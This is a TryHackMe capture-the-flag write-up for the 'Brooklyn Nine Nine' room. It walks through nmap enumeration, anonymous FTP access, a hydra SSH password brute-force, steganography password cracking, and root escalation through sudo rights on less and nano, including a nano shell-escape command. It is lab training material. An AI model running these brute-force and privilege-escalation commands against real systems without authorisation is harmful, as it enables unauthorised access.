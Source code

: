 ```yaml
---
title: "TryHackMe - Brooklyn Nine Nine"
author: Nasrallah
description: ""
date: 2022-04-27 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, hydra, bruteforce, steganography]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello l33ts, I hope you are doing well. We are doing [Brooklyn Nine Nine](https://tryhackme.com/room/brooklynninenine) from [TryHackMe](https://tryhackme.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```Terminal
Nmap scan report for 10.10.168.172
Host is up (0.098s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.31.131
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

There are 3 open ports, FTP on port 21, SSH on port 22, and HTTP on port 80. Let's start with FTP.

## FTP

Let's login to the ftp server as anonymous. `ftp {target_IP}`.

![](/assets/img/tryhackme/brooklyn/1.png)

We found a text file, let's download it to our machine with the command `get {filename}`.

Now let's see what's on that file.

![](/assets/img/tryhackme/brooklyn/2.png)

It's a note from Amy to Jake saying that Jake's password is too weak.

## Web

Let's navigate to the webpage.

![](/assets/img/tryhackme/brooklyn/8.png)

We have a picture of Brooklyn nine-nine and some text, let's view the source code `ctrl+u`.

![](/assets/img/tryhackme/brooklyn/9.png)

We found an HTML comment talking about steganography

# **Foothold**

## Method 1

Let's use `hydra` to brute force Jake's password. `hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.10.168.172 ssh -t 30`

![](/assets/img/tryhackme/brooklyn/3.png)

Great! We got Jake's password, let's login.

![](/assets/img/tryhackme/brooklyn/4.png)

And we're in.

## Method 2

First, let's download the picture to our machine using this command. `wget http://{target_ip}/brooklyn99.jpg}`.
Now let's use `steghide` to extract any hidden files on the picture.`steghide --extract -sf brooklyn99.jpg`.

![](/assets/img/tryhackme/brooklyn/10.png)

The file is protected with a password.

Let's use [stegseek](https://github.com/RickdeJager/stegseek) to get that password.

![](/assets/img/tryhackme/brooklyn/11.png)

Great! We got the password and extracted the data successfully. Let's see what we got.

![](/assets/img/tryhackme/brooklyn/12.png)

We got Holt's password. Let's use it to login.

![](/assets/img/tryhackme/brooklyn/13.png)

We're in. To privesc.

# **Privilege Escalation**

## Jake

Let's check our current privileges by running `sudo -l`.

![](/assets/img/tryhackme/brooklyn/5.png)

We can execute the command `less` as root, let's take a look at [GTFOBins](https://gtfobins.github.io/) for exploits.

![](/assets/img/tryhackme/brooklyn/6.png)


We found a way to get root access by executing some commands, so let's run them.

![](/assets/img/tryhackme/brooklyn/7.png)

Good! We are root now.

## Holt

Let's check our privileges with `sudo -l`.

![](/assets/img/tryhackme/brooklyn/14.png)

We can run nano as root, let's go to [GTFOBins](https://gtfobins.github.io/) and see if there is a way to exploit that.

![](/assets/img/tryhackme/brooklyn/15.png)

Good, we found a way.

 First, run the command `sudo nano`, now that you are in the nano editor, press `ctrl+R` + `ctrl+X`, after that, enter the command `reset; sh 1>&0 2>&0`, it should look like this.

![](/assets/img/tryhackme/brooklyn/16.png)

Now press Enter to execute the command.

>Note: you might need to press enter multiple time to get a clear shell.

![](/assets/img/tryhackme/brooklyn/17.png)

And just like that, we got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References

https://github.com/RickdeJager/stegseek

https://gtfobins.github.io/gtfobins/less/#sudo

https://gtfobins.github.io/gtfobins/nano/#sudo